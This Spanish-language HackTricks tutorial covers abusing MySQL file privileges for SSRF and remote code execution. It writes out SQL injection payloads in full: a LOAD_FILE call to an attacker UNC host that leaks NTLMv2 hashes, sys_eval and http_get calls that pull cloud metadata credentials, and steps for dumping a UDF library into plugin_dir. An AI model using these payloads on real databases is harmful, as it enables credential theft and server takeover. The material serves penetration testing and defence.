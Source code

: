 # Privilegio de archivo MySQL a SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PRs al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML a SSRF

Cada artículo de exfiltración de datos SQL Out of Band utilizará la función de cadena `LOAD_FILE()` para realizar una solicitud de red. La función en sí tiene sus propias limitaciones basadas en el sistema operativo en el que se ejecuta y en la configuración con la que se inició la base de datos.

Por ejemplo, si la variable global `secure_file_priv` no se estableció, el [valor predeterminado se establece en `/var/lib/mysql-files/`](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), lo que significa que solo se pueden usar funciones como `LOAD_FILE('nombre_archivo')` o `LOAD DATA [LOCAL] INFILE 'nombre_archivo' INTO TABLE nombre_tabla` para leer archivos del directorio `/var/lib/mysql-files/`. Para poder realizar lecturas en archivos fuera de este directorio, la opción `secure_file_priv` debe establecerse en `""`, lo cual solo se puede hacer actualizando el archivo de configuración de la base de datos o pasando el parámetro de inicio `--secure_file_priv=""` al servicio de la base de datos.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/2.png)

Sin embargo, en circunstancias en las que `secure_file_priv` se establece en `""`, deberíamos poder leer otros archivos en el sistema, asumiendo que se tienen permisos de lectura de archivos y `file_priv` se establece en `Y` en `mysql.user` para el usuario de la base de datos actual. Sin embargo, poder usar estas funciones para realizar llamadas de red depende mucho del sistema operativo. Como estas funciones están diseñadas solo para leer archivos, las únicas llamadas relevantes para la red que se pueden realizar son a rutas UNC en hosts de Windows, ya que [la API de Windows `CreateFileA` que se llama al acceder a un archivo comprende las convenciones de nomenclatura UNC](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file).

Entonces, si la base de datos objetivo se está ejecutando en una máquina Windows, la consulta de inyección `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` [resultaría en que la máquina Windows envíe hashes NTLMv2 en un intento de autenticarse con el `\\attackerserver.example.com` controlado por el atacante](https://packetstormsecurity.com/files/140832/MySQL-OOB-Hacking.html).

Esta técnica de falsificación de solicitud del lado del servidor (SSRF), aunque útil, está restringida solo al puerto TCP 445. No se puede controlar el número de puerto, pero se puede leer información de recursos compartidos configurados con privilegios de lectura completos. Además, como se ha demostrado en investigaciones anteriores, se puede utilizar esta capacidad limitada de SSRF para robar hashes y transmitirlos para obtener shells, por lo que definitivamente es útil.

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/3.png)

### Funciones definidas por el usuario para RCE

Otra técnica interesante con bases de datos MySQL es la capacidad de utilizar Funciones Definidas por el Usuario (UDF, por sus siglas en inglés) presentes en archivos de bibliotecas externas que, si están presentes en ubicaciones específicas o en la variable $PATH del sistema, se pueden acceder desde MySQL.

Podrías usar una inyección SQL para **escribir una biblioteca (`.so` o `.dll`** dependiendo de Linux o Windows), que contenga una Función Definida por el Usuario que pueda realizar solicitudes de red/HTTP, y que luego se pueda invocar a través de consultas adicionales.

Sin embargo, esto tiene sus propias restricciones. Según la versión de MySQL, que se puede identificar con `select @@version`, el directorio desde el cual se pueden cargar los complementos está restringido. MySQL anterior a `v5.0.67` permitía cargar archivos de biblioteca desde la ruta del sistema si la variable `plugin_dir` no estaba configurada. Esto ha cambiado y las versiones más recientes tienen la variable **`plugin_dir`** configurada en algo como `/usr/lib/mysql/plugin/`, que generalmente es propiedad de root.

Básicamente, **para cargar una biblioteca personalizada en MySQL y llamar a una función de la biblioteca cargada a través de una inyección SQL, necesitarías**:

* la capacidad de **escribir en la ubicación** especificada en **`@@plugin_dir`** a través de una inyección SQL
* **`file_priv`** establecido en **`Y`** en `mysql.user` para el usuario de la base de datos actual
* **`secure_file_priv`** establecido en **`""`** para poder leer los bytes sin procesar de la biblioteca desde una ubicación arbitraria como la red o un directorio de carga de archivos en una aplicación web.

Suponiendo que se cumplan las condiciones anteriores, puedes usar el **enfoque clásico de transferir la** [**popular biblioteca UDF de MySQL `lib_mysqludf_sys`**](https://github.com/mysqludf/lib\_mysqludf\_sys) **al servidor de la base de datos**. Luego podrías realizar solicitudes de comandos del sistema operativo como `cURL` o `powershell wget` para realizar SSRF utilizando la sintaxis

`x'; SELECT sys_eval('curl http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

Hay muchas otras funciones declaradas en esta biblioteca, cuyo análisis se puede ver [aquí](https://osandamalith.com/2018/02/11/mysql-udf-exploitation/). Si eres como yo y eres perezoso, puedes obtener una copia de esta biblioteca UDF, para el sistema operativo objetivo, desde una instalación de Metasploit en el directorio `/usr/share/metasploit-framework/data/exploits/mysql/` y comenzar a usarla.

Alternativamente, se han creado bibliotecas UDF específicamente para proporcionar a la base de datos la capacidad de realizar solicitudes HTTP. Puedes usar [MySQL User-defined function (UDF) for HTTP GET/POST](https://github.com/y-ken/mysql-udf-http) para hacer que la base de datos realice solicitudes HTTP, utilizando la siguiente sintaxis

`x'; SELECT http_get('http://169.254.169.254/latest/meta-data/iam/security-credentials/'); -- //`

También podrías [crear tu propia UDF y usarla para la post-explotación.](https://pure.security/simple-mysql-backdoor-using-user-defined-functions/)
En cualquier caso, necesitas transferir la biblioteca al servidor de la base de datos. Puedes hacerlo de varias formas:

1. Utiliza la función de cadena `hex()` de MySQL o algo como `xxd -p filename.so | tr -d '\n'` para convertir el contenido de la biblioteca a formato hexadecimal y luego volcarlo en el directorio `@@plugin_dir` utilizando `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`
2. Alternativamente, convierte el contenido de `filename.so` a base64 y utiliza `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //`

Si el `@@plugin_dir` no es escribible, entonces estás de mala suerte si la versión es superior a `v5.0.67`. De lo contrario, escribe en una ubicación diferente que esté en la ruta y carga la biblioteca UDF desde allí utilizando:

* para la biblioteca `lib_mysqludf_sys` - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* para la biblioteca `mysql-udf-http` - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/4.png)

![](https://ibreak.software/img/using-sql-injection-to-perform-ssrf-xspa-attacks/5.png)

Para automatizar esto, puedes utilizar SQLMap que admite [el uso de UDF personalizadas a través de la opción `--udf-inject`](https://github.com/sqlmapproject/sqlmap/wiki/Usage).

Para inyecciones de SQL ciegas, puedes redirigir la salida de las funciones UDF a una tabla temporal y luego leer los datos desde allí o utilizar [una solicitud DNS oculta dentro de un comando curl `sys_eval` o `sys_exec`](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration).

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* ¿Trabajas en una **empresa de ciberseguridad**? ¿Quieres ver tu **empresa anunciada en HackTricks**? ¿O quieres tener acceso a la **última versión de PEASS o descargar HackTricks en PDF**? ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* Obtén el [**swag oficial de PEASS y HackTricks**](https://peass.creator-spring.com)
* **Únete al** [**💬**](https://emojipedia.org/speech-balloon/) [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Comparte tus trucos de hacking enviando PR al** [**repositorio de hacktricks**](https://github.com/carlospolop/hacktricks) **y al** [**repositorio de hacktricks-cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
